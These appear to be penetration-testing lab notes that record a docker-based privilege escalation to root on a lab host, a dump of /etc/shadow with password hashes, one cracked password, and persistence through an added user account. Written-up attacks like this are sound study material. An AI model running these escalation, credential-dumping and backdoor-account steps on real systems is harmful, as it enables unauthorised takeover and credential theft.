 - Got initial access as `wwwd-data` with docker escape ([[Enumerating Docker]])
- Stabilize shell:
	- `python3 -c 'import pty; pty.spawn("/bin/bash")'`
	- `Ctrl + Z`
	- `stty raw -echo; fg`
	- `export TERM=xterm`
- Transferred `linpeas` and ran it to find `docker` can run as `suid`
- ![[Pasted image 20250405071622.png]]

# Escalation using `docker`
---
![[Pasted image 20250405071706.png]]
- ==`alpine` is not available, but `ubuntu` is :==
	- ![[Pasted image 20250405072319.png]]
- Therefore, our command becomes:
	- `/usr/bin/docker run -v /:/mnt --rm -it 56def654ec22 chroot /mnt sh`
- ![[Pasted image 20250405072406.png]]

# Making access persistent
---
- `cat /etc/shadow`
	- ![[Pasted image 20250405100629.png]]
```
root:$6$TvYo6Q8EXPuYD8w0$Yc.Ufe3ffMwRJLNroJuMvf5/Telga69RdVEvgWBC.FN5rs9vO0NeoKex4jIaxCyWNPTDtYfxWn.EM4OLxjndR1:18605:0:99999:7:::
linux-admin:$6$Zs4KmlUsMiwVLy2y$V8S5G3q7tpBMZip8Iv/H6i5ctHVFf6.fS.HXBw9Kyv96Qbc2ZHzHlYHkaHm8A5toyMA3J53JU.dc6ZCjRxhjV1:18570:0:99999:7:::
```
- ==Note:- Found that `linux-admin` hash was crackable, but had to wait for 30 mins: `linuxrulez`==
- ==Cracking these hashes didn't work so added a new user: `drasstrange : password123`==:
	- `adduser drasstrange`
	- `su drasstrange`
	- `ssh-keygen`
	- `ssh drasstrange@10.200.107.33`
		- ![[Pasted image 20250405101326.png]]


# Continue in [[Nmap Scan on internal network]]

